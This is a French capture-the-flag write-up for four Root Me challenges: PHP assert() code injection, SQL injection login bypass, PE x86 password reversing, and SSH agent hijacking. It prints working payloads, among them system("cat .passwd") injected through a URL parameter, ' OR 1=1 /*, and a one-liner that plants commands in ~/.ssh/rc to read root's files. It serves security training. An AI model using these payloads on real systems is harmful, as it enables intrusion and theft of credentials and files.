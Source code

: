 # DETECTION DE VULNÉRABILITÉS
##### Write UP - Root Me
##### tous les flags trouvés dans ces challenges seront tronqués
</br>

![alt text](esgi_logo.png "ESGI")
</br>
</br>
</br>

### Chall 1 : [PHP - assert()](https://www.root-me.org/fr/Challenges/Web-Serveur/PHP-assert)
----
</br>

![alt text](imgchall1/php-assert.png "PHP - assert()")
</br>

En se déplaçant sur le site on peut remarquer que les pages sont introduites par
> ?page=

donc on teste des valeurs ramdom pour voir ce que cela nous retourne
> ?page='test'

ce qui va sans surprise nous retrouner une erreur:
> Parse error: syntax error, unexpected T_STRING in /challenge/web-serveur/ch47/index.php(8) : assert code on line 1 Catchable fatal error: assert(): Failure evaluating code: strpos('includes/'test'.php', '..') === false in /challenge/web-serveur/ch47/index.php on line 8

A partir de là on sait qu'on peut faire exécuter du code grâce à __?page=''__ donc le but dans un premier temps va être d'essayer de faire ressortir la liste des fichiers du répertoire. Pour ce faire on peut essayer d'utiliser la commande __system()__
> ?page='.system("ls -la").'

ce qui nous retourne la liste de tous les fichiers du répertoire courant
```
total 32 
dr-xr-x--- 3 web-serveur-ch47 www-data 4096 Feb 27 2018 . 
drwxr-s--x 69 challenge www-data 4096 Feb 2 15:30 .. 
-r-------- 1 challenge challenge 90 Nov 20 2016 ._nginx.http-level.inc 
-r-------- 1 challenge challenge 727 Nov 20 2016 ._nginx.server-level.inc 
-r-------- 1 challenge challenge 218 Feb 27 2018 ._php53-fpm.pool.inc 
-r-------- 1 web-serveur-ch47 www-data 192 May 7 2017 .passwd 
drwxr-sr-x 2 web-serveur-ch47 www-data 4096 Feb 7 2018 includes 
-rw-r----- 1 web-serveur-ch47 www-data 811 Feb 19 2018 index.php 'includes/'.system("ls -la").'.php'File does not exist
```

On peut voir alors que le fichier qui nous interresse se trouve dans ce répertoire
> -r-------- 1 web-serveur-ch47 www-data 192 May 7 2017 .passwd 

On peut ainsi refaire la même manipulation en changeant un peu le contenu de __system()__
> ?page='.system("cat .passwd").'

ce qui nous permet d'avoir le retour suivant:
> The flag is / Le flag est : x4Ss[...]A1Lx Remember to sanitize all user input! / Pensez à valider toutes les entrées utilisateurs ! Don't use assert! / N'utilisez pas assert ! 'includes/'.system("cat .passwd").'.php'File does not exist

On a donc bien notre flag : __x4Ss[...]A1Lx__
</br>
</br>

### Chall 2 : [SQL injection - Authentification](https://www.root-me.org/fr/Challenges/Web-Serveur/SQL-injection-authentification)
----
</br>

![alt text](imgchall2/sql-injection_auth.png "SQL injection - Authentification")
</br>

Le but de ce challenge comme son nom l'indique est d'exploiter une faille __SQL__ pour pouvoir s'authentifier en tant qu'admin sur le site.

Dans un premier temps nous nous retrouvons sur cette page
</br>

![alt text](imgchall2/sql-injection_auth_2.png "SQL injection - Authentification")
</br>

donc le but va être d'exécuter une requête __SQL__ dans un des champs afin de récupérer les logs admin.

Nous allons d'abord essayer de récupérer les logs de l'utilisateur n°1 en base de données. Pour cela on entre la requête suivante dans le champ __Login__ et on met un caractère (minimum) dans le champ __Password__ afin de ne pas le laisser vide.
> ' OR 1=1 /*

ce qui nous permet de nous logger sur l'utilisateur 1
</br>

![alt text](imgchall2/sql-injection_auth_3.png "SQL injection - Authentification")
</br>

A partir de ce moment nous pouvons supposer que l'administrateur a une entrée nommée __admin__ en base de données. Nous exécutons la requête suivante afin d'obtenir les logs d'un potentiel utilisateur __ADMIN__
> ' OR 1=1 AND \`username`='admin' /*

Cette requête s'avère être la bonne car nous avons pour retour à ce moment
</br>

![alt text](imgchall2/sql-injection_auth_4.png "SQL injection - Authentification")
</br>

Le mot de passe __admin__ est non lisible, il ne nous reste qu'à inspecter l'élément et changer le __type=__ du champ password ce qui nous revèle le mot de passe de l'admin.

Le flag est donc : __t0[...]k!$__
</br>
</br>

### Chall 3 : [PE x86 - 0 protection](https://www.root-me.org/fr/Challenges/Cracking/PE-x86-0-protection)
----
</br>

![alt text](imgchall3/chall3.png "PE x86 - 0 protection")
</br>

Dans un premier temps on télécharge le __.exe__ du challenge, ensuite nous l'ouvrons avec __Cutter__ afin d'avoir une vue désassemblée de cet exécutable.
</br>

![alt text](imgchall3/cutter_1.png "PE x86 - 0 protection")
</br>

Nous savons que le but de ce challenge est de retrouver le __Password__ donc nous allons commencer par chercher une fonction __Wrong.password__. Nous entrons notre recherche dans la barre de rechercher de __Cutter__ ce qui nous renvoie ici:
</br>

![alt text](imgchall3/cutter_2.png "PE x86 - 0 protection")
</br>

Ici on peut voir dans le __DATA XREF__ a quelle fonction correspond cette string et où elle se trouve
> ; DATA XREF from fcn.00401726 @ 0x04017aa

A partir de la nous nous deplacons vers la __fonction__ d'addresse 0x004017aa, ce qui nous ramène sur cette vue:
</br>

![alt text](imgchall3/cutter_3.png "PE x86 - 0 protection")
</br>

D'ici nous pouvons voir grâce à l'arborescence que plusieurs variables sont reliées à cette fonction, et que en bout de ligne ce trouve un commentaire en chiffre. Ces chiffres doivent être le mot de passe décomposé. Si nous executons le programme et entrons ses chiffres comme mot de passe nous avons une erreur
> Wrong Password

Si ces chiffres ne fonctionne pas essayons de les transcoder dans un autre type, par exemple en __ASCII__, si nous prennons la correspondance de chaque chiffre alors cela nous donne 
> 'S' 'P' [...] 'S'

et si nous entrons ces lettres (majuscule et miniscule respectées) alors a ce moment nous avons le message 
> Gratz Man :)

qui apparait, donc ce mot de passe est le bon

Flag : __SP[...]S__
</br>
</br>

### Chall 4 : [SSH - Agent Hijacking](https://www.root-me.org/fr/Challenges/App-Script/SSH-Agent-Hijacking)
----
</br>

![alt text](imgchall4/chall4.png "SSH - Agent Hijacking")
</br>

Pour ce challenge nous devons demarrer un machine virtuel détenue par root-me et nous connecter desssus avec les logs: __admin/admin__.
</br>

![alt text](imgchall4/chall4_1.png "SSH - Agent Hijacking")
</br>

Donc nous avons le VM ctf06, ce qui est important a retenir pour la suite.

Pour la suite nous devons ecrire un script qui nous permettra de d'exécuter du code quand notre collègue se connectera sur le server. Soit nous nous connecton sur le server et nous ecrivons notre script dans 
> ~/.ssh/rc

pour qu'il s'exécute a la connexion, soit nous ecrivons cette ligne dans notre terminal
> ssh -oStrictHostKeyChecking=no admin@ctf06.root-me.org "echo \"ssh -oStrictHostKeyChecking=no root@localhost 'cat /passwd /root/.flag > /tmp/flag && chmod 777 /tmp/flag'\" > .ssh/rc; while [[ ! -f /tmp/flag ]]; do sleep 1; done; cat /tmp/flag"

en oubliant pas de changer 
> admin@ctf06.root-me.org

en fonction de la machine que nous utilison. Ce qui nous donnera après 1 minute d'atttente ce résultat:
</br>

![alt text](imgchall4/chall4_2.png "SSH - Agent Hijacking")
</br>

Nous avons donc nos 2 flags.

Flag VM : __4179[...]c300d05__

Flag Chall : __B3[...]AGENT__